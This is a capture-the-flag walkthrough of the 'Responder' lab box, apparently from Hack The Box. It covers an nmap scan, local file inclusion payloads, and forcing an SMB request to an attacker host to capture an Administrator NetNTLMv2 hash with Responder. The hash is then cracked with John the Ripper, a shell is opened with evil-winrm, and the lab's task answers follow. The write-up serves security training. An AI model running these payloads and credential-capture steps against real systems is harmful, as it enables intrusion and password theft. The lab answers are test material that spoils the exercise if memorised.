# Responder      


## Solution

### Disclaimer

I would recommend adding `{target ip} unika.htb` into your `/etc/hosts` file.

To do this type:

```
sudo nano /etc/hosts
```

At the very end paste section from above and `save` it. You can do that by `Ctrl + X`. Then press `Y`.



### Scan with nmap

Type:

```
nmap -p- -sV --min-rate 1000 {target ip} -v
```

`-p-` Instructs Nmap to scan all 65535 TCP ports, from 1 to 65535, ensuring a comprehensive scan of all possible ports on the target.

`-sV` Enables service version detection, allowing Nmap to probe open ports and determine the version of the service running on each port. This helps in identifying specific software and versions for vulnerability assessment.

`--min-rate 1000` Sets a minimum packet transmission rate to 1000 packets per second. This forces Nmap to perform the scan more quickly, which can be useful for time-sensitive operations, but it might be more noticeable to network security systems.

`-v` Activates verbose mode, providing detailed output about the scan's progress and findings, which helps in monitoring the scan in real-time and understanding the detailed results.



Nmap scan gave us very well-detailed informations.

`Apache` web server is running on port `80/tcp` and `WinRM` is running on port `5985/tcp`.

After pasting `target ip` into the browser we can see the website.


After changing language to `French` we can see:



`french.html` page is being loaded by the page parameter, so it might be vulnerable to a `Local File Inclusion (LFI)`.

Here is the link to all the payloads: https://raw.githubusercontent.com/emadshanab/LFI-Payload-List/master/LFI%20payloads.txt

The one that works:

```
/windows/system32/drivers/etc/hosts
```

Modified(also works):

```
../../../../../../../../windows/system32/drivers/etc/hosts
```



Now we know the `LFI` is possible.

`LFI (Local File Inclusion)` is a type of security vulnerability in web applications that allows an attacker to include local files on the server within the application. This vulnerability occurs when an application improperly sanitizes user input that determines which files to load. An attacker can exploit this to access system files, application source code, and sensitive information like passwords and API keys. In extreme cases, LFI can be used to execute malicious code on the server if the included file contains user-supplied data. Protecting against LFI requires proper validation and sanitization of user inputs and using secure methods for file inclusion.

`RFI (Remote File Inclusion)` allows an attacker to include and execute files from a remote server, potentially leading to remote code execution. `LFI (Local File Inclusion)`, on the other hand, allows an attacker to include files already present on the local server, which can expose sensitive data and potentially lead to code execution if user-supplied data is included.

#### Differences

`LFI (Local File Inclusion)` allows an attacker to include and access files located on the local server, exposing sensitive data. `RFI (Remote File Inclusion)` allows an attacker to include and execute files from a remote server, which can lead to remote code execution.

### Responder

`Responder` is a tool used in penetration testing to capture `NTLM` hashes and other credentials by listening to network traffic. It works by responding to network queries (such as LLMNR, NBT-NS, and MDNS) and pretending to be legitimate network resources, allowing it to capture login data sent by other computers on the network.

`NTLM (New Technology LAN Manager)` is a suite of authentication protocols designed by Microsoft. It is primarily used as a challenge-response protocol to authenticate clients accessing resources within an Active Directory domain. This method supports single sign-on (SSO), enabling users to log in once and gain access to various resources without repeatedly entering their credentials.

The `NTLM` authentication process works as follows:

`1` The client sends its username and domain name to the server.

`2` The server generates a random string called a challenge.

`3` The client encrypts this challenge with the NTLM hash derived from the user's password and sends it back to the server.

`4` The server retrieves the stored NTLM hash for the user's password.

`5` The server encrypts the challenge with the retrieved hash and compares this encrypted value with the one received from the client. If both values match, the client is authenticated successfully.

Download `Responder`:

```
git clone https://github.com/lgandx/Responder
```

We have to verify that the `Responder.conf` is set to listen for SMB requests.



If is, type:

```
sudo python3 Responder.py -I tun0
```



Now check for ip of tun0 interface. You can see it in responder:



or by pasting `ip a` in your terminal.

If you have it type into your browser:

```
http://unika.htb/?page=//{tun0 ip}/blablabla
```



We can see an error about not being able to load the requested file.

However, on our listening `Responder` server, we observe that we have captured a NetNTLMv hash for the Administrator user.



Let's dump hash into a file:



### John the Ripper

To crack password type:

```
john --wordlist={path to the dictionary you wanna use} {name of yor hash file .txt}
```



Password is `badminton`.

### WinRM

`Windows Remote Management (WinRM)` is a Microsoft protocol for remote management of Windows-based systems. It allows administrators to execute commands and run PowerShell scripts on remote machines. `WinRM` enables management of services and access to WMI (Windows Management Instrumentation) data for monitoring system resources. It supports secure communication through encryption and authentication. `WinRM` is primarily used for automating administrative tasks and improving system management efficiency across a network.

We are going to use `evil-winrm` tool.



Type:

```
evil-winrm --ip {target ip} --user Administrator --password badminton
```



### Get the flag

This is a `Windows` shell, so we can navigate through it using `Windows` commands.



Done.

### Paste the flag



## Answers

### Task-1: When visiting the web service using the IP address, what is the domain that we are being redirected to?

unika.htb

### Task-2: Which scripting language is being used on the server to generate webpages?

php

### Task-3: What is the name of the URL parameter which is used to load different language versions of the webpage?

page

### Task-4: Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

../../../../../../../../windows/system32/drivers/etc/hosts

### Task-5: Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

//10.10.14.6/somefile

### Task-6: What does NTLM stand for?

New Technology Lan Manager

### Task-7: Which flag do we use in the Responder utility to specify the network interface?

-I

### Task-8: There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.

John The Ripper

### Task-9: What is the password for the administrator user?

badminton

### Task-10: We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

5985

### Submit root flag

That was a long one.